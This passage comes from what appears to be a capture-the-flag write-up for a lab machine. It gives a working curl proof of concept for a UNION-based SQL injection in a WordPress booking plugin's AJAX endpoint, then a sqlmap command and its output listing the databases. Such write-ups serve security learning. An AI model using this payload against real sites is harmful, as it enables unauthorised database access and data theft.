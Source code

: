 From there just I follow the POC given in wpscan's website and capture the request with burpsuite :

```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \  --data 'action=bookingpress_front_get_category_services&_wpnonce=7c71a4df9b&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x http://127.0.0.1:8080
```

Let's switch on burpsuite :

![image text](/burpsuite_capure_request_metatwo.png)

After some research the final request should looks like this :

![image text](/final_request_burp.png)

Finally just save to file the request to for_sqlmap.req for example.


## **SQLMAP**

I could perform the attack manually but to be efficient I'll use sqlmap :

```
sqlmap -r sqlinjection.req -p total_service --dbs
```
Again to save time I assume that the parameter `total_service` is vulnerable. Using the --dbs argument let us see databases name :

```
sqlmap -r forwriteup.req -p total_service --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:12:56 /2022-11-19/
...[snip]...
[15:12:57] [INFO] fetching database names
available databases [2]:
[*] blog
[*] information_schema
...[snip...]...
```